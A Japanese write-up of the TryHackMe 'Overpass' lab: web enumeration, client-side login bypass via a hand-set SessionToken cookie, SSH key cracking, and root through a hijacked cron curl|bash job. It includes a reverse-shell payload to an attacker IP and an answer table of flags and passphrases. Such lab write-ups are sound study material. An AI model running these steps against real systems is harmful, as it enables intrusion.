




Web 列挙
HTTP サービスの調査、About Us からのユーザー名収集、ダウンロードページの解析。
TryHackMe の Easy ルーム。Web 列挙、クライアントサイド認証のバイパス、 SSH 鍵クラック、cron ジョブ悪用による権限昇格を扱う日本語 writeup です。
HTTP サービスの調査、About Us からのユーザー名収集、ダウンロードページの解析。
login.js の解析から、SessionToken クッキーによる管理画面アクセス。
書き込み可能な /etc/hosts と root の cron ジョブを悪用。
まず nmap でポート 22 (SSH) と 80 (HTTP) が開いていることを確認。
nmap <target-ip>
PORT STATE SERVICE
22/tcp open ssh
80/tcp open httpHTTP にアクセスすると、パスワードマネージャー Overpass のサイトが表示される。

About Us ページからユーザー名候補を収集: Ninja, Pars, Szymex, Bee, MuirlandOracle

/downloads からバイナリとソースをすべてダウンロード。

feroxbuster の結果から /admin を発見し、ログイン画面に到達。

ログインフォームに出会ったときのチェック項目（優先度順）:
優先度 高
優先度 中
優先度 低
F12 で HTML ソースを確認。login.js と cookie.js が読み込まれている。
ログイン処理の核心部分:
async function login() {
const creds = { username: usernameBox.value, password: passwordBox.value }
const response = await postData("/api/login", creds)
const statusOrCookie = await response.text()
if (statusOrCookie === "Incorrect credentials") {
loginStatus.textContent = "Incorrect Credentials"
passwordBox.value=""
} else {
Cookies.set("SessionToken", statusOrCookie)
window.location = "/admin"
}
}response.text() の戻り値が "Incorrect credentials" でなければ成功扱い。成功時はレスポンス本文をそのまま SessionToken クッキーにセットして /admin へ遷移する。
curl で API を直接叩いて確認:
curl -i -X POST http://<target-ip>/api/login \
-H "Content-Type: application/json" \
-d '{"username":"james","password":"wrong"}'
HTTP/1.1 400 Bad Request
...
Incorrect credentials「失敗メッセージ以外なら成功」という否定条件に違和感を持てば、クッキーを直接セットする解法にたどり着ける。
DevTools → Application → Storage → Cookies でクッキーを確認。空の状態から手動でクッキーを作成する。

テスト用に aaaa という名前のクッキーを作成しても F5 後に変化なし。


SessionToken という名前のクッキーを作成して F5 すると、管理画面が表示される。URL は /admin のままで、クッキーの有無で表示が変わることを確認。

管理画面から james ユーザー名と暗号化された SSH 秘密鍵を取得。
秘密鍵を james.key として保存し、パーミッションを設定。
chmod 400 james.key
ssh -i james.key james@<target-ip>パスフレーズを求められる。鍵は AES-128-CBC で暗号化されており、ソルトは鍵ファイル内の DEK-Info 行に記載されている。
ssh2john james.key > james.hash
john --wordlist=/usr/share/wordlists/rockyou.txt james.hash
james13 (james.key)パスフレーズ james13 で SSH ログイン成功。
james@<target>:~$ cat user.txt
thm{65c1aaf000506e56996822c6281e6bf7}
james@<target>:~$ cat todo.txt
To Do:
> Update Overpass' Encryption, Muirland has been complaining...
> Write down my password somewhere on a sticky note...
> Ask Paradox how he got the automated build script working...sudo -l も SUID も使えない。cron タスクを確認。
cat /etc/crontab
...
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash1 分ごとに root が overpass.thm からビルドスクリプトを取得して実行している。
cat /etc/hosts
127.0.0.1 overpass.thm
ls -la /etc/hosts
-rw-rw-rw- 1 root root 250 ... /etc/hosts/etc/hosts が world-writable。攻撃者側で偽の buildscript.sh を配信し、hosts を書き換えて cron を悪用する。
# Attacker: directory structure
mkdir -p www/downloads/src
# Malicious buildscript.sh
#!/bin/bash
bash -i >& /dev/tcp/<attacker-ip>/1234 0>&1
# Serve from www/
sudo python3 -m http.server 80
# Listen for reverse shell
nc -lvnp 1234ターゲット側で hosts を書き換え:
192.168.205.211 overpass.thm1 分以内に root のリバースシェルが返ってくる。
root@<target>:~# cat root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}ルームの質問へのクイックリファレンス。
| Question | Answer |
|---|---|
| What was the first hash you cracked? | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
| What was the password? | password |
| What was the username? | james |
| What was the SSH private key passphrase? | james13 |
| user.txt | thm{65c1aaf000506e56996822c6281e6bf7} |
| root.txt | thm{7f336f8c359dbac18d54fdd64ea753bb} |